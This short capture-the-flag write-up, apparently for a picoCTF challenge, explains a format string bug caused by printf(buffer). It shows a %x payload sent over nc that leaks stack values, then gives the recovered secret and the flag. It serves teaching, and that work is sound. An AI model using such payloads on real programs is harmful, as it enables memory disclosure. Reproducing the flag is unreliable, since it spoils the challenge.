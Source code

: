 # Introduction
* Format string vulnerabilities happen because a programmer forgets to use the format string on one of the `printf` family functions
* Since the `printf` format strings take parameters from the stack, we can read data from the stack by passing in unwanted format parameters. For more information about format string parameters, see [here](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=0ahUKEwjprL2Due7UAhVMGz4KHeK8AMMQFggoMAA&url=http%3A%2F%2Fen.cppreference.com%2Fw%2Fcpp%2Fio%2Fc%2Ffprintf&usg=AFQjCNFTJnlM5_BFKCc0x9WLmlAuh1fGhQ) or use the man page for `printf`

# Solution
* From the C source, we can see that printf is called without a format string: `printf(buffer);` (line 24). This hints that FSB might be possible.
* The easiest way to solve this problem is to use a series of `%x` modifiers and make an educated guess on which output was correct. We know that it will be 4 bytes since we are reading up to `sizeof(int)`. (line 16). We also know things that start with f are probably in the stack, and the 804... address is probably a place in `.text`
	* > `nc shell2017.picoctf.com 42684`
	* Give me something to say!
	* %x.%x.%x.%x.%x.%x.%x.%x.%x.
	* 40.f7fc7c20.8048792.1.ffffdd34.90ba6e5.3.f7fc73c4.ffffdca0.
	* Now tell my secret in hex! Secret: 90ba6e5
	* 65aaf5d76d7fa708642cf1ab573ebf58
	* Wow, you got it!

